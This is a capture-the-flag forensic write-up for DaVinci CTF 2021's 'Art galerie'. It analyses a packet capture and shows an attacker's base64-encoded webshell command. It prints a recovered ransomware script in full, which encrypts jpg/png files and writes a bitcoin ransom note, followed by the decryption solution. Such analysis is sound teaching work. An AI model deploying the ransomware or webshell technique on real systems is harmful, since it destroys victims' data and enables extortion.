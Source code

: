 ### DaVinci CTF 2021 - Art galerie (23 solves) 98 points


We've got a network capture, once opened with wireshark we see lot of request, by looking at them we found that they is a Nikto scan with LOT of requests (useless for this chall)

We want to retrieve this file: flag_sur_fond_de_soleil_couchant.jpg

We have to find AES key in order to decode flag exfiltration (at tcpstream 1161)

We could also see a php webshell (at /uploads/helper.php), bad guy used to communicated with the webshell by :
```
GET /uploads/helper.php HTTP/1.1
Host: galery.art
Accept: */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 
(KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36
;cm0gdGVzdC5qcGcucGhw
```
`cm0gdGVzdC5qcGcucGhw = rm test.jpg.php`

By follow all commands we could retrieve a python script named ransom_v1.py:
```python=
#!/usr/bin/python3
from Crypto.Cipher import AES
import time, os
from hashlib import md5

BS = 128
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS).encode("utf-8")
key = b"RLY_SECRET_KEY_!"
iv = md5((b"%d" % time.time()).zfill(16)).digest()

cipher = AES.new(key, AES.MODE_CBC, iv)

files = os.listdir(".")

for file in files:
    ext = file.split(".")[-1]
    if os.path.isdir(file) != True and (ext == "png" or ext == "jpg"):
    with open(file, "rb") as f:
        data = f.read()
        with open(file, "wb") as f:
            f.write(cipher.encrypt(pad(data)))
        
with open("RANSOM_README.txt","wb") as f:
    f.write(b"""All your works of art have been encrypted with military grade encryption ! To recover them, please send 1000000000 bitcoins to 12nMSc17YjeD6fSQDjab8yfmV7b6qbKRS9
Do not try to find me (I use VPN and d4rkn3t to hide my ass :D) !!""")
```

We need to find the timestamp when the script was executed, by looking into commands passed to the webshell we could find this one:
python3 ./ransom_v1.py 
`at Thu, 28 Jan 2021 14:35:09 GMT
timestamp = 1611844509`

```python=
#!/usr/bin/python3
#!/usr/bin/python3
from Crypto.Cipher import AES
import time, os
from hashlib import md5

time = 1611844509  #Timestamp ./ransom_v1.py
t = b"\xff\xd8" #2 first byte of a .jpg file header
BS = 128
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS).encode("utf-8")
key = b"RLY_SECRET_KEY_!"
data = open("flag_sur_fond_de_soleil_couchant.jpg", "rb").read()
    
out = None
iv = md5((b"%d" % (time)).zfill(16)).digest()
cipher = AES.new(key, AES.MODE_CBC, iv)
o = cipher.decrypt(pad(data))



for i in range(1000): #in case there is a mismatch with timestamp
    iv = md5((b"%d" % (time+i)).zfill(16)).digest()
    cipher = AES.new(key, AES.MODE_CBC, iv)
    o = cipher.decrypt(pad(data))
    if o[:2] == t:
        out=data
        print("found")
        with open("flag_sur_fond_de_soleil_couchantFinal.jpg", "wb") as f:
            f.write(o)  
        break
    
    
````
Then we retrieve a file, but not a valid .jpg file as we wanted, but we could see some few sentences that make sense, so :
` $ strings flag_sur_fond_de_soleil_couchantFinal.jpg| grep dvCTF{`

and we found the flag:

`dvCTF{t1m3_i5_n0t_r4nd0m_en0ugh}`

